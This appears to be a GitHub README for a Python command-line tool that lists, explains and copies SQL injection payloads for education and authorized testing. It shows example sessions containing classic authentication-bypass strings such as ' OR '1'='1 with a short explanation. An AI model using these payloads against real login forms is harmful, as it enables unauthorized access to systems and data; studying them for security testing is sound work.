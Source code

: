 # SQL List 💉

A powerful CLI tool for exploring and learning about SQL injection techniques, designed for educational purposes and authorized testing.

## ✨ Features

- 🔍 Browse different categories of SQL injections
- 📚 View detailed explanations of each technique
- 📋 Copy payloads directly to clipboard
- 🎨 Interactive shell interface with colored output

## 🚀 Getting Started

1. Launch the program:
   ```bash
   python main.py
   ```

2. Use these commands in the SQL shell:

   | Command | Description |
   |---------|-------------|
   | `list` | Show all SQL injection categories |
   | `show <category>` | List all injections in a category |
   | `get <category> <number> [-explain]` | Copy injection to clipboard |
   | `help` | Display available commands |
   | `exit` | Exit the program |

## 📑 Available Categories

- 🔐 Authentication Bypass
- 🔄 Union Based
- ⚠️ Error Based
- ⏱️ Time Based

## 💡 Example Usage

### 1. List Categories
```sql
sql> list
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Available SQL Injection Categories ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ Category              │ Count     │
├─────────────────────┼──────────┤
│ Authentication Bypass│    6     │
│ Union Based         │    5     │
│ Error Based         │    4     │
│ Time Based          │    5     │
└─────────────────────┴──────────┘
```

### 2. Show Category Injections
```sql
sql> show authentication bypass
┏━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ Injections for Authentication Bypass ┃
┡━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┩
│ # │ Payload                    │
│ 1 │ ' OR '1'='1               │
│ 2 │ ' OR '1'='1' --           │
│ ...                           │
└───┴───────────────────────────┘
```

### 3. Get Injection with Explanation
```sql
sql> get authentication bypass 1 -explain
╔══════════════════════════╗
║    Copied to clipboard   ║
╚══════════════════════════╝
Payload: ' OR '1'='1

📝 Explanation:
This injection creates a condition that's always true by making '1'='1'.
It bypasses login by making the WHERE clause always evaluate to true.
```

## ⚠️ Security Notice
This tool is intended for **educational purposes** and **authorized testing only**. Do not use these injections on systems without explicit permission.

## 🔧 Requirements
- Python 3.6 or higher
- Required packages:
  ```
  pyperclip>=1.8.2
  rich>=13.0.0
  ```

---
Created with 💙 by Cyber Trojan LLC
